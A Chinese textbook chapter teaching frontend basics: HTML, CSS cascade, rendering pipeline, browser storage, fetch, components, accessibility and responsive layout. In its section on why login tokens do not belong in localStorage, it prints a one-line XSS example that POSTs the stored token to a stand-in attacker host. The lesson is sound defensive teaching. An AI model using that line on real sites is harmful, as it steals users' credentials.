

# $\rm Chapter \, 28$ 前端开发：让数据变成页面

> 你的论文管理器现在有 SQL 数据库和 Python 数据处理脚本。你导出了一些数据为 JSON 文件（就像[文本、编码、压缩包与常见数据格式](../02-终端与工具/06-文本编码压缩包与数据格式.md)中你学过的 JSON 格式），但每次想看论文列表，你要么打开终端用 `jq` 解析 JSON，要么用文本编辑器对着大段 JSON 用眼睛筛选。你当然可以继续这样用——但如果你要把论文数据展示给一个不写代码的人，他们需要的是一个**网页**：输入框、按钮、论文卡片、点击筛选。这些都在浏览器里，而浏览器能理解和展示的文档语言就是 HTML。

> **开始前自检**：本章假设你已经会：
>
> - □ 理解请求-响应：浏览器请求、服务器应答（第 23 章 §23.3.1）
> - □ 会查看网页源码或开发者工具（第 5 章 §5.11）
> - □ 能用终端运行命令（第 2 章）

## $\rm \S \, 28.1$ 网页是什么

### $\rm \S \, 28.1.1$ 浏览器不只是“看网页的东西”

浏览器的核心工作是两件：
1. **获取资源**：通过 HTTP（[网络基础到HTTP](../04-网络/23-网络基础到HTTP.md)）从服务器下载文件——HTML 文档、CSS 样式表、JavaScript 脚本、图片、字体。
2. **渲染页面**：把下载到的 HTML+CSS+JS 转换成屏幕上你能看到和点击的像素。

当你在地址栏输入 `https://example.com`，浏览器发送一个 HTTP GET 请求，服务器返回一个 HTML 文件。浏览器解析这个 HTML 文件，发现里面引用了 CSS 和 JS，再去下载这些文件，最后把它们组合成你看到的页面。

### $\rm \S \, 28.1.2$ HTML：描述“页面上有什么”

你之前的输出方式是 `std::cout` 往终端打印文字，或者 `jsonify()`（第 29 章 Flask 里的函数）返回 JSON 给 `curl`。终端只能显示纯文本。浏览器能显示**结构化的文档**——标题、段落、列表、表格、输入框、按钮——这些结构需要用一种浏览器能理解的语言来描述。这种语言就是 **HTML**（HyperText Markup Language，超文本标记语言）。

“超文本”的意思是**文本之间可以互相链接**——你点击一个链接就跳到另一个页面。“标记”的意思是**用标签标注文本的结构**——“这一段是标题”“这一段是段落”“这个区域是输入框”。

```html
<h1>论文管理器</h1>
<p>这里展示所有已收录的论文。</p>
```

这就是最基本的 HTML 文档。`<h1>` 和 `</h1>` 是一对**标签**（tag），它们包起来的内容是**一级标题**。`<p>` 和 `</p>` 包起来的是**段落**。标签为浏览器提供了“这段文字扮演什么角色”的信息——标题应该又大又粗，段落应该有行间距。


### $\rm \S \, 28.1.3$ 一个完整的 HTML 文档

```html
<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <title>论文管理器</title>
</head>
<body>
    <h1>论文列表</h1>
    <p>正在加载论文数据...</p>
</body>
</html>
```

逐行解释：
- `<!DOCTYPE html>`：告诉浏览器“这是现代 HTML 文档”。没有这一行浏览器会进入“兼容旧网页”模式，渲染行为不一致。
- `<html lang="zh">`：整个文档的根元素。`lang="zh"` 告诉浏览器和搜索引擎“这个页面是中文的”，影响字体选择、拼写检查、屏幕阅读器。
- `<head>`：**元数据区**——不直接显示在页面上的信息。`<meta charset="UTF-8">` 声明字符编码（回顾[文本、编码、压缩包与常见数据格式](../02-终端与工具/06-文本编码压缩包与数据格式.md)中 UTF-8 的概念——这里如果不声明，浏览器可能用错误的编码导致中文乱码）。`<title>` 是浏览器标签页上显示的文字。
- `<body>`：**可见内容区**——所有你实际在页面上看到的东西都在这里。

### $\rm \S \, 28.1.4$ HTML 是一棵树

浏览器解析 HTML 后，在内存中构建一棵**DOM 树**（Document Object Model，文档对象模型）：

```text
html
├── head
│   ├── meta (charset="UTF-8")
│   └── title ("论文管理器")
└── body
    ├── h1 ("论文列表")
    └── p ("正在加载...")
```

这棵树是后续一切操作的基础——CSS 通过选择器找到这棵树上的节点来添加样式；JavaScript 通过遍历和修改这棵树来动态改变页面内容。你不需要手动构建 DOM 树——写 HTML 标签，浏览器自动构建它。

---

## $\rm \S \, 28.2$ CSS：描述“这些元素长什么样”

HTML 定义了结构。但它不关心美观——一个 `<h1>` 在浏览器默认样式下是大号黑色加粗字体，但你想要的是蓝色、居中、有下边距的标题。**CSS**（Cascading Style Sheets，层叠样式表）就是用来描述视觉外观的语言。

### $\rm \S \, 28.2.1$ 选择器 + 属性 = 样式

```css
h1 {
    color: #2563eb;          /* 蓝色 */
    text-align: center;      /* 居中 */
    margin-bottom: 24px;     /* 下边距 */
}
```

- `h1` 是**选择器**（selector）——选中所有 `<h1>` 元素
- 花括号里面是**声明**（declaration）——每条声明是一个 `属性: 值;` 对
- `color` 控制文字颜色，`text-align` 控制对齐，`margin-bottom` 控制下边距

选择器不只可以按标签选。三种最常用的选择器：

```css
/* 按标签：所有 <h1> */
h1 { }

/* 按 class（类）：所有 class="paper-card" 的元素 */
.paper-card { }

/* 按 ID：唯一元素 id="search-box" */
#search-box { }
```

### $\rm \S \, 28.2.2$ 盒模型：每个元素都是一个矩形

CSS 把页面上的每一个元素看作一个矩形盒子，从内到外四层：

```text
margin（外边距——元素和邻居之间的距离）
  border（边框——可见的边界线）
    padding（内边距——边框和内容之间的留白）
      content（内容——文字或子元素）
```

理解了这四层，你就理解了为什么有时候元素之间挤在一起（margin 太小）、有时候文字贴着边缘（padding 不够）。

### $\rm \S \, 28.2.3$ 把 CSS 应用到 HTML

三种方式：
1. **行内样式**：`<h1 style="color: blue">` ——直接写在元素上（少用——和内容混在一起，难维护）
2. **内部样式表**：`<style>h1 { color: blue; }</style>` ——写在 HTML 的 `<head>` 里（适合单页原型）
3. **外部样式表**：`<link rel="stylesheet" href="style.css">` ——独立的 `.css` 文件（工程中标准做法）

### $\rm \S \, 28.2.4$ 同一个元素被多条规则命中时谁赢

一个 `<h1 class="title" id="main">` 同时被 `h1 { color: red }`、`.title { color: green }`、`#main { color: blue }`、行内 `style="color: black"` 命中，屏幕上显示哪一条？这不能靠猜——CSS 有一套确定的裁决顺序，叫**层叠**（cascade）。按优先级从低到高：

1. **来源与重要性**：浏览器默认样式 < 作者写的普通样式 < 作者写的 `!important` 声明 < 用户样式表里的 `!important` 声明（无障碍相关，日常开发极少碰到）。浏览器默认样式就是为什么裸 `<h1>` 也会又大又粗。
2. **特异性**（specificity，选择器本身有多“具体”）：行内样式 > ID 选择器 > class / 属性 / 伪类 > 标签 / 伪元素。可以记成四位数 $(a,b,c,d)$，比较时从高位往低位逐位比。上面四条的得分是 `h1`=$(0,0,0,1)$、`.title`=$(0,0,1,0)$、`#main`=$(0,1,0,0)$、行内=$(1,0,0,0)，所以行内的黑色赢。
3. **出现顺序**：以上全部相同，则**后出现**的规则赢。外部样式表与内部样式表属于同一层，谁在文档里靠后谁生效。

```html
<style>
  p            { color: gray;  }  /* (0,0,0,1) */
  .note        { color: green; }  /* (0,0,1,0) 赢 gray */
  #intro       { color: blue;  }  /* (0,1,0,0) 赢 green */
</style>
<p class="note" id="intro" style="color: red">这段文字是红色</p>
```

这三条裁决顺序也是排查“为什么我的样式不生效”的依据。在 DevTools 的 Styles 面板里，被划掉（strikethrough）的那几行就是被更高特异性或更靠后的声明覆盖了；把鼠标移到被划掉的行上，DevTools 会显示是哪条规则覆盖的。样式没生效时第一件要做的事是看划掉的行，而不是反复刷新。

> **经验规则**：需要 `!important` 才能生效，通常说明选择器结构有问题（特异性在互相打架）。它把裁决顺序全部打乱，后续更难维护。常见做法是保持选择器浅而具体（如 `.paper-card .title`），不要嵌套到五六层。

---

## $\rm \S \, 28.3$ 渲染管线：从文本到像素

### $\rm \S \, 28.3.1$ 五个阶段

上一节说浏览器“解析 HTML 构建 DOM 树”。实际上一张页面从字节到像素要经过五个阶段，DOM 只是第一步的产物：



- **DOM 树**：HTML 的结构表示，只关心“有什么元素”。
- **CSSOM 树**（CSS Object Model，CSS 对象模型）：所有样式规则解析后的集合。和 DOM 一样，它是树状结构，因为它要表达“从 `body` 继承下来的字号是多少”这类层叠关系。
- **渲染树**：DOM 与 CSSOM 合并的结果：把 DOM 里**实际会显示**的节点挑出来，每个节点挂上它最终生效的样式。`<head>`、`<script>`、`display: none` 的元素都不在渲染树里——它们没有盒子，不占位置。
- **布局**（layout，也称 reflow）：计算每个盒子在页面上的精确位置和尺寸。这一步要读所有盒子的宽度、文字换行、外边距合并，因此是整条管线里最贵的一步。
- **绘制**（paint）：把每个盒子画成实际的像素操作——背景色、边框、文字、阴影，按层叠顺序记录下来。
- **合成**（composite）：现代浏览器把页面切成若干**图层**，由 GPU 分别画好再叠起来。只改一个图层的内容时，其他图层可以原样复用。

### $\rm \S \, 28.3.2$ 为什么改 class 比逐个改 style 快

DOM 是可读写的。JavaScript 改一个属性，浏览器就要判断“这一改会波及到哪几个阶段”，然后重跑受影响的部分：

| 你改了什么 | 要重跑的阶段 |
|---|---|
| `element.style.color` | 绘制 + 合成（布局不变，因为颜色不影响尺寸） |
| `element.style.width` | 布局 + 绘制 + 合成 |
| `element.classList.add(...)` | 取决于新 class 里的属性——只含颜色就等同于第一行 |
| `element.style.transform` / `opacity` | 只有合成（这两个属性可以被 GPU 单独处理） |
| 新增/删除一个元素 | 布局 + 绘制 + 合成，且可能连带重排它后面所有兄弟节点 |

于是“改 DOM 类名比逐个改 style 快”这句经验规则的准确含义是：**class 的一次切换只触发一次样式重算和一次后续管线**；而在一百个元素上分别写 `style.width`、`style.padding`、`style.fontSize`，浏览器可能要为每一次写入各重跑一遍布局。前者快不是因为“class 更底层”，而是因为**写入次数少、且样式规则集中在一处声明**（可读性也更好）。

需要说明边界：如果 class 里只有 `color` 这一类不参与布局的属性，那它快在“一次写入”而不在“绕开布局”；如果 class 里含 `width`，照样触发完整布局。想稳定绕开布局和绘制，要用 `transform` 和 `opacity` 做动画——这是“把动画交给合成层”这条规则的技术依据。

### $\rm \S \, 28.3.3$ 强制同步布局：读布局属性为什么危险

浏览器并不在你每次改样式后立刻重跑布局——那样太慢。它把改动记下来，等你**下次真的需要布局结果**（或者一帧结束）时再统一算一次。这种延迟计算让连续多次修改只付一次布局成本。

但有一类操作会立刻打破这个优化：**在写入样式之后读取一个布局属性**。因为你要的值必须由布局算出来，浏览器只能停下当前任务、把积压的改动全部算完，才能回答你。这叫**强制同步布局**（forced synchronous layout）。反复交替读写就成了 **layout thrashing**（布局抖动）。

```html
<style>
  #box { width: 50px; height: 50px; background: #2563eb; }
</style>
<div id="box"></div>
<script>
  const box = document.getElementById('box');

  // 反面示例：读 → 写 → 读 → 写 …… 每一轮都强制一次同步布局
  for (let i = 0; i < 100; i++) {
    const w = box.offsetHeight;      // 读：必须立刻算出布局
    box.style.height = (w + 1) + 'px'; // 写：把布局结果作废
  }

  // 更好：先把所有读做完，再统一写
  const heights = [];
  for (let i = 0; i < 100; i++) heights.push(box.offsetHeight); // 全读
  for (let i = 0; i < 100; i++) box.style.height = (heights[i] + 1) + 'px'; // 全写
</script>
```

会触发强制同步布局的常见读取属性：`offsetTop/Left/Width/Height`、`clientWidth/Height`、`scrollTop/Height`、`getBoundingClientRect()`、`getComputedStyle()`。

> **竞赛生迁移提示**：这和缓存友好的循环是同一种思路。C++ 里 `for` 循环内反复访问跨步很大的数组元素，会把缓存打穿；这里则是“读一次就逼着浏览器重算全局布局”。两处的修法也一样：**把同类操作批量做**，不要让读写交替。

**用 DevTools 验证**：打开 Performance 面板 → 点录制 → 刷新或触发上面的循环 → 停止。在火焰图里找到 `Layout` 条目：

- 出现大量彼此分离的小 `Layout` 块，每块旁边带红色三角警告，就是强制同步布局的典型形状；
- 鼠标悬停会出现“Forced reflow is a likely performance bottleneck”一类提示；
- 底部 Summary 里 `Rendering` 或 `Scripting` 的占比异常高，说明时间花在重算布局而不是真正的业务逻辑上。

同样的循环用 class 切换或 `transform` 重写后，录制结果里 `Layout` 会明显减少甚至消失——这是可观察的对照。

---

## $\rm \S \, 28.4$ 浏览器里能存什么：四件套

页面一刷新，JavaScript 里的变量全部归零。你需要一个地方放“上次搜索的关键词”“用户有没有登录”“本地缓存的论文列表”。浏览器提供了四种存储，它们的差别不是容量大小，而是**生命周期**和**谁能读到**。

### $\rm \S \, 28.4.1$ 四种存储的对照

| | Cookie | localStorage | sessionStorage | IndexedDB |
|---|---|---|---|---|
| 容量 | 约 $4\text{ KB}$/站点 | 约 $5\text{–}10\text{ MB}$/源 | 同 localStorage | 通常为磁盘配额的 $10\%\text{–}60\%$，按源分配 |
| 生命周期 | 可设 `Max-Age`/`Expires`；不设就是关闭标签页即失效 | 永久，除非用户或代码清除 | 关闭该**标签页**即清除 | 永久，除非清除 |
| 是否随 HTTP 请求自动发送 | **是**，同源请求自动带上 | 否 | 否 | 否 |
| 读写方式 | 同步（由浏览器管理，JS 只能通过 `document.cookie` 读写，且受 `HttpOnly` 限制） | 同步 | 同步 | **异步**（返回 Promise） |
| 数据形态 | 字符串 | 字符串键值对 | 字符串键值对 | 可存对象、二进制、索引查询 |

三种“存字符串”的存储都有共同的名字：**Web Storage**（Cookie 在规范上单独归类，但常和它们并称“浏览器存储三件套”）。

**Cookie 随请求自动发送**这一点决定了它和另外两者的分工：正因为浏览器会自动把 cookie 附在每个同源请求上，服务器才能“认得”你——会话 cookie 是登录态的实现方式（第 29 章后端会设置 `Set-Cookie`）。代价是每次请求都多带几十字节，且如果你在同源下画一个 1 像素的图片标签指向其他站点，那也是一个请求——这就是跨站跟踪的技术基础，也是 `SameSite` 属性要限制的东西。

```javascript
// 在浏览器 Console 里逐个试（先打开任意 http(s) 页面——file:// 下部分 API 行为不一致）
localStorage.setItem('keyword', 'transformer');
localStorage.getItem('keyword');        // "transformer"
sessionStorage.setItem('draft', 'abc'); // 新开一个同样的标签页，这里读不到
localStorage.removeItem('keyword');
localStorage.clear();                    // 清空该源的全部 localStorage

// IndexedDB 必须异步使用
const req = indexedDB.open('papers', 1);
req.onupgradeneeded = () => req.result.createObjectStore('list', { keyPath: 'id' });
req.onsuccess = () => console.log('数据库已就绪', req.result.name);
```

### $\rm \S \, 28.4.2$ 为什么不要把 token 放 localStorage

把登录 token 存进 localStorage 再手动加到请求头，是很多教程的写法——它绕开了 cookie 的跨站限制，写起来直观。代价是**安全边界被压成了零**。

localStorage 的全部内容对**同源下的任何 JavaScript**都是可读的，没有 `HttpOnly` 这样的开关。一旦页面存在 XSS（§32.1.2 讲过，用户输入被当作脚本执行），攻击者拿到的就是：

```javascript
// 攻击者注入的脚本：一行读完，发走
fetch('https://evil.example/collect', { method: 'POST', body: localStorage.getItem('token') });
```

而**带 `HttpOnly` 的 cookie 无法被 JavaScript 读取**——同一段注入脚本可以冒充用户发请求，但拿不到凭据本身，令牌也不会因为用户访问了一个被挂马的页面而长期外泄。这就是为什么认证 token 应当放在 `HttpOnly`（生产环境再加 `Secure` 和 `SameSite`）的 cookie 里，而不是 localStorage。后端代码里可以看到这个属性的实际写法：`reader-api/app.py` 的 `session_cookie()` 拼出的 `HttpOnly; SameSite=Lax; Path=/; Max-Age=...`。

localStorage 适合放**丢了也不致命**的东西：界面偏好（主题、每页条数）、上次搜索的关键词、未提交的草稿。

### $\rm \S \, 28.4.3$ 什么时候需要 IndexedDB

前三种存储在同一个线程上同步读写，且只能存字符串。两个限制在下面两种场景下会真正卡住你：

1. **数据量大**：几万篇论文的本地缓存塞进 localStorage，每次读都要把整串 JSON 解析一遍，同步解析会直接卡住界面（用户的点击要等它解析完）。IndexedDB 是异步的，且支持按索引查询单条记录，不必全量加载。
2. **要存二进制**：离线缓存 PDF、图片缩略图。字符串存储只能先 base64 编码，体积膨胀约三分之一（回顾[文本、编码、压缩包与常见数据格式](../02-终端与工具/06-文本编码压缩包与数据格式.md)中 base64 的机制）。IndexedDB 可以直接存 `Blob` 和 `ArrayBuffer`。

代价是它的原生 API 基于事件回调，写起来很啰嗦——工程中一般用一层封装（`idb`、Dexie.js），或者干脆用 IndexedDB 之上的方案（Service Worker + Cache Storage 做离线页面）。对论文管理器这种规模，“localStorage 存筛选偏好 + 后端存数据”就够了，IndexedDB 是数据量大到本地要建缓存时才需要引入的工具。

---

## $\rm \S \, 28.5$ JavaScript：描述“这些元素的行为”

HTML 是骨架，CSS 是皮肤。但骨架和皮肤是**静态**的——页面加载后它们就不变了。你需要一个东西来处理交互：用户输入关键词时筛选列表、点击按钮时提交数据、数据从服务器返回时动态生成论文卡片。这个“让页面动起来”的东西就是 **JavaScript**。

### $\rm \S \, 28.5.1$ JavaScript 能做什么

JavaScript 在浏览器中运行，能做的事全和操作 DOM 树有关：
- **查找元素**：`document.getElementById('search')` 找到搜索框
- **修改内容**：`element.textContent = '新文字'` 改变显示的文字
- **修改样式**：`element.style.display = 'none'` 隐藏一个元素
- **添加/删除元素**：动态生成论文卡片或删除旧的
- **响应事件**：用户点击按钮、输入文字、滚动页面时执行代码

### $\rm \S \, 28.5.2$ 最小交互示例

把 JavaScript 和 HTML 连接起来：

```html
<body>
    <input type="text" id="search" placeholder="输入关键词筛选...">
    <ul id="paper-list">
        <li>Attention Is All You Need (2017)</li>
        <li>BERT (2019)</li>
        <li>ResNet (2016)</li>
    </ul>

    <script>
        // 找到搜索框
        const searchBox = document.getElementById('search');
        
        // 监听"用户输入了文字"这个事件
        searchBox.addEventListener('input', () => {
            const keyword = searchBox.value.toLowerCase();  // 用户输入了什么
            const items = document.querySelectorAll('#paper-list li');  // 所有论文条目
            
            items.forEach(item => {
                // 如果条目文字包含关键词就显示，否则隐藏
                const text = item.textContent.toLowerCase();
                item.style.display = text.includes(keyword) ? '' : 'none';
            });
        });
    </script>
</body>
```

打开这个 HTML 文件（双击或用 `python -m http.server`），你在搜索框里打字时论文列表实时筛选——没有服务器端请求，全是浏览器里的 JavaScript 在操作 DOM。

### $\rm \S \, 28.5.3$ `fetch`：从 JSON 文件获取数据

上面的例子是硬编码的论文列表。真实数据通常来自后端 API（[下一章](29-后端与API.md)会写），但原理和从静态 JSON 文件读取完全相同——都是浏览器发送 HTTP GET 请求，拿到 JSON 数据。JavaScript 的 `fetch` 函数发送这个请求。

> ⚠️ 以下示例需要 HTTP 服务器。浏览器的 `fetch()` 在 `file://` 协议下不工作。如果你还没启动服务器，先运行 `python -m http.server 8080`，然后访问 `http://localhost:8080`。

**第一步：最小版——只展示请求/响应循环**。`fetch` 返回一个 **Promise**（“我承诺未来会给你一个结果”），`.then(callback)` 在这个结果到达时执行：

```javascript
// 从 JSON 文件请求数据，把响应体解析后打印出来
fetch('papers.json')
    .then(response => response.json())    // 把响应体解析为 JavaScript 对象
    .then(papers => console.log(papers)); // 打印解析结果——按 F12 打开开发者工具的 Console 查看
```

`response.json()` 本身也返回一个 Promise（解析 JSON 是异步操作），所以第二个 `.then` 拿到的才是解析好的数据。

**第二步：async/await 版——完整渲染到页面**。这是现代 JavaScript 的简写——如果你不熟悉 async/await，先用 `.then()` 版本。`await` 相当于“把 `.then()` 里拿到的值直接赋给变量”：

```javascript
async function loadPapers() {
    const response = await fetch('papers.json');
    // await 等待 fetch 的 Promise 兑现——相当于第一步的第一个 .then
    const papers = await response.json();  // 相当于第一个 .then 里写的 response.json()

    const list = document.getElementById('paper-list');
    list.innerHTML = '';  // 清空"加载中..."

    papers.forEach(paper => {
        const item = document.createElement('li');
        item.textContent = `${paper.title} (${paper.year})`;
        list.appendChild(item);
    });
}

loadPapers();  // 页面加载完成后执行
```

`fetch` 和你熟悉的 `curl` 做的是同一件事——发送 HTTP GET 请求到 `/api/papers`。区别在于：`curl` 在终端运行，输出到 stdout；`fetch` 在浏览器中运行，返回数据后动态更新 DOM。浏览器限制 `fetch` 只能向同源（协议 + 域名 + 端口都相同）发请求，或者需要服务器明确允许跨域——这就是[域名、HTTPS、代理与排障](../04-网络/24-域名HTTPS代理与排障.md)中 CORS 机制存在的意义。

---

## $\rm \S \, 28.6$ 组件化：当页面有五十个交互元素时

### $\rm \S \, 28.6.1$ 问题

上面的纯 HTML+JS 代码对你来说是透明的——每个元素的 ID、每个事件监听器、每个 DOM 操作都一目了然。但当页面有 50 个元素——搜索框、年份筛选下拉菜单、标签多选框、论文卡片（标题+作者+年份+引用数+标签）、分页器、加载动画、错误提示——手动管理几十个 DOM 元素的状态和事件监听变成一场噩梦。

### $\rm \S \, 28.6.2$ 组件的思想

**组件**（component）把页面拆成独立的、可复用的单元。每个组件包含自己的 HTML 结构、CSS 样式和 JavaScript 逻辑，像一个“自定义的 HTML 标签”：

```text
<App>
  <SearchBar />           ← 封装了输入框 + 输入事件 + 防抖
  <FilterPanel />         ← 封装了年份下拉 + 标签多选
  <PaperList>             ← 封装了数据加载 + 列表渲染
    <PaperCard />         ←  封装了单篇论文的显示
    <PaperCard />
  </PaperList>
  <Pagination />          ← 封装了分页逻辑
</App>
```

这和你写 C++ 类是一样的道理——你不会把所有逻辑塞进 `main()` 函数。你写 `class Parser`、`class Database`、`class Exporter`，每个类职责单一。组件就是把同样的思想应用到 UI 上。

### $\rm \S \, 28.6.3$ React、Vue 与 Svelte

三个前端框架解决同一个问题：**如何让“数据变了”自动触发“界面更新”，而不需要你手动写 `document.getElementById().textContent = ...`**。

| 框架 | 起步难度 | 特点 |
|---|---|---|
| **React**（react.dev） | 中 | 生态最大、岗位最多。用 JSX（类似 HTML 的 JavaScript 语法） |
| **Vue**（vuejs.org） | 低 | 模板语法最接近纯 HTML。单文件组件（HTML+CSS+JS 在同一文件） |
| **Svelte**（svelte.dev） | 低 | 编译时框架——构建产物极小。语法接近纯 HTML+JS |

对于论文管理器这种项目，三个框架都能轻松胜任——它们共享同一个核心思想：**数据驱动视图**。你修改一个变量，框架自动把界面更新到匹配状态，你不再手动操作 DOM。

---

## $\rm \S \, 28.7$ 写 HTML 的两条工程底线

前面几节的 HTML 都是“能显示就行”。真实项目里还有两条底线：结构要让**机器**读懂，界面要让**不用鼠标的人**能用。

### $\rm \S \, 28.7.1$ 语义化元素：`<div>` 能做的事，为什么不都用 `<div>`

`<div>` 是一个没有含义的通用容器，配上 CSS 和 JavaScript，它能变成导航栏、按钮、对话框——视觉上和语义元素一模一样。感官上没问题，但页面上除了“像素长什么样”之外还有第二份数据：**可访问性树**（accessibility tree）。浏览器把 DOM 翻译成一棵只保留“这是标题/这是按钮/这是导航”的树，交给屏幕阅读器、语音助手、浏览器的搜索定位功能使用。`<div>` 在翻译后依然是“无名字、无角色”的一团，藏在里面的文字变成了散落的句子。

| 通用写法 | 语义写法 | 得到的默认能力 |
|---|---|---|
| `<div class="nav">` | `<nav>` | 屏幕阅读器可直接跳转到“导航区” |
| `<div class="main">` | `<main>` | 有“主内容”地标，可一键跳到正文 |
| `<div class="card"><div class="title">…` | `<article><h2>…` | 标题层级进入大纲，可按键在标题间跳转 |
| `<div onclick="submit()">提交</div>` | `<button>提交</button>` | 自动获得 Tab 焦点、Enter/Space 触发、焦点样式、`type` 行为 |
| `<div class="img">` | `` / `<figure>` | 屏幕阅读器能读出说明文字 |

最典型的是按钮。`<div onclick>` 在鼠标下工作正常，但用键盘就完全失效——`<div>` 不在 Tab 顺序里，拿不到焦点，也不会因为按下 Enter 或空格而触发点击事件。要让它可键盘操作，你得手动加 `tabindex="0"`、监听 `keydown` 区分 Enter 与空格、再补一个可见的焦点样式——这三件事 `<button>` 本来就免费提供。

```html
<!-- 反面示例：鼠标能用，键盘不能用 -->
<div onclick="submitPaper()">提交</div>

<!-- 推荐：键盘与鼠标行为一致，无需额外代码 -->
<button type="button" onclick="submitPaper()">提交</button>
```

### $\rm \S \, 28.7.2$ 键盘可达性与屏幕阅读器

**键盘可达性**（keyboard accessibility）是可访问性里投入产出比最高的一条：能只用键盘走完主要流程，就说明焦点顺序、元素角色、可见焦点都基本正确。

- **Tab 键**按 DOM 顺序在**可聚焦元素**之间移动焦点。默认可聚焦的有：链接、按钮、输入框、下拉选择、`contenteditable`。`<div>`、`<span>` 默认不可聚焦。
- **Enter** 触发链接和按钮，**Space** 触发按钮（链接不响应 Space）——这些行为由元素角色决定，不是浏览器对文字的特殊照顾。
- **焦点管理**：打开弹窗时应把焦点移进弹窗，关闭时移回触发它的按钮；否则键盘用户会“迷失”在弹窗后面的元素上。用 `element.focus()` 主动移动焦点。
- **`aria-*` 只在标签无法表达语义时才需要**。它的名字是“无障碍富互联网应用”（Accessible Rich Internet Applications，ARIA），作用是给极少数 HTML 无法描述的自定义控件**补充**角色或状态，比如 `<div role="dialog" aria-modal="true">`、`<span aria-live="polite">`（内容更新时通知屏幕阅读器）。**第一条规则是“不要用 ARIA，除非真的需要”**：给 `<button>` 加 `role="button"` 是多余的，而 `aria-label` 写错（如写成 `aria-labeledby`）比不写更容易误导。能用原生标签表达的就用原生标签。

屏幕阅读器的读法是理解上面这些规则的最好方式：它按可访问性树逐个访问节点，读名字（`<button>` 里的文字或 `aria-label`）、角色（“按钮”）、状态（“已展开”“已勾选”），并按用户指令在标题、地标之间跳转。所以对屏幕阅读器而言，一个真正的 `<h2>` 比一个字号 24 像素的 `<div>` 信息量大得多。

**用键盘走完表单的检查清单**（每一项都能在浏览器里验证，不需要装屏幕阅读器）：

1. 只在页面上按 Tab：焦点能否到达每一个输入框、按钮、链接，且顺序与视觉顺序一致（不出现“跳到页面底部又跳回来”）？
2. 每个控件聚焦时，**是否有可见的焦点框**？如果看不到，多半是某处写了 `outline: none` 而没给替代样式。
3. 只按 Tab 能不能提交表单——即提交按钮本身可获得焦点？如果它是个 `<div>`，焦点会直接跳过它。
4. 在输入框里按 Enter 是否提交？在提交按钮上按 Enter 与按 Space 是否都生效？
5. 把鼠标移开，只用键盘操作一遍带弹窗/下拉的交互：焦点是否被移进了弹出的层，关闭后是否回到原按钮？
6. 用 DevTools 的 Accessibility 面板（或 Elements 面板里的 Accessibility 标签）看当前选中节点的角色和名称，检查按钮是否有可读的名称。
7. 用浏览器扩展（如 axe DevTools、Lighthouse 的 Accessibility 审计）自动扫一遍：自动检查能覆盖对比度、缺 `alt`、缺表单标签等，但“焦点管理是否合理”这类问题仍需人工走一遍。

> **经验规则**：把“用键盘能不能走完主流程”当成提交前的一次冒烟测试。它花费不到一分钟，却同时检验了语义结构、焦点顺序和可见焦点三件事。

---

## $\rm \S \, 28.8$ 响应式布局：一个页面适配所有屏幕

### $\rm \S \, 28.8.1$ 固定宽度在手机上为什么会横向滚动

你按桌面浏览器窗口宽度写了一个 `width: 1200px` 的容器。桌面看起来正好，手机上一打开——内容被截断，整页可以往右拖。

原因在一个很多人忽略的元数据上。手机浏览器为了让“为桌面写的网页”看起来不至于碎成一条，默认使用一个虚拟的**视口**（viewport）：假装自己屏宽 $980$ 像素左右。你的 $1200$ 像素容器比这个虚拟宽度还宽，浏览器只能让它溢出，于是产生横向滚动。

```html
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
</head>
```

`width=device-width` 告诉浏览器“视口的宽度就取设备实际宽度”（手机竖屏大约 $360\text{–}430$ 像素），`initial-scale=1` 表示不缩放。加上这一行后，页面才按真实宽度参与布局——这是所有响应式页面的前提。

### $\rm \S \, 28.8.2$ 媒体查询与断点

**媒体查询**（media query）让一组样式只在满足条件时生效：

```css
/* 默认样式：窄屏（移动端）优先 —— 单列 */
.paper-list { display: grid; grid-template-columns: 1fr; gap: 12px; }

/* 屏幕宽度达到 768px 时追加/覆盖 */
@media (min-width: 768px) {
    .paper-list { grid-template-columns: repeat(2, 1fr); }
}

/* 更宽屏幕：三列 */
@media (min-width: 1200px) {
    .paper-list { grid-template-columns: repeat(3, 1fr); }
}
```

上面这种写法叫**移动优先**（mobile-first）：先写窄屏的默认样式，再用 `min-width` 逐级增强。反过来（先写桌面再写 `max-width`）也可以，但维护时容易在“覆盖”和“回退”之间出错。移动优先流行的现实理由是：手机流量与设备占比高，而窄屏的约束最强——先满足最难的情况，宽屏只是空间变多。

**断点**（breakpoint）就是这些 `min-width` 的取值。它们不是标准规定的魔法数字，而是**根据内容决定的**：把浏览器窗口从窄到宽慢慢拖动，观察布局在哪个宽度变得难看（比如卡片里的标题开始折行、两列挤成一条缝），那个宽度就是你的断点。下面这些值是社区里常见的起点，但它们只是起点：

| 断点 | 大致对应 |
|---|---|
| `640px` | 大屏手机横屏 |
| `768px` | 平板竖屏 |
| `1024px` | 平板横屏 / 小笔记本 |
| `1280px` | 常规桌面 |

除了宽度，`@media` 还能查询更实用的条件，例如 `@media (prefers-color-scheme: dark)` 适配深色模式、`@media (prefers-reduced-motion: reduce)` 关掉动画（对前庭功能敏感的用户很重要）。此外，用相对单位（`rem`、`%`、`fr`、`max-width: 100%`）代替固定像素，能让同一套规则适配的宽度范围更宽，减少需要的断点数量。

**在 DevTools 里验证**：打开设备工具栏（Ctrl+Shift+M / Cmd+Shift+M），选择一种手机型号或拖动宽度，页面上方会显示当前宽高。把宽度拖过你的断点值，预期看到列数在 $768\text{px}$ 处从 1 变 2、在 $1200\text{px}$ 处从 2 变 3。若在窄屏出现横向滚动条，优先检查是否有元素写死了 `width`、或固定宽度的图片没有加 `max-width: 100%`。

---

## $\rm \S \, 28.9$ 前端校验只是体验，后端校验才是安全

在搜索框里限制“只能输入 3 个字符”是一层**前端校验**（client-side validation）。它让用户少一次等待、错误提示更及时，但它**不是**一道安全边界。

原因很直接：所有在浏览器里运行的代码，都在用户的机器上、且由用户控制。用户可以用 DevTools 的 Console 直接调用你的函数、把 `disabled` 属性删掉、或者干脆绕开页面，用 `curl` 直接向后端发请求——请求里想填什么就填什么。前端校验保护的是“诚实用户的手滑”，后端校验保护的是“不诚实用户的请求”。

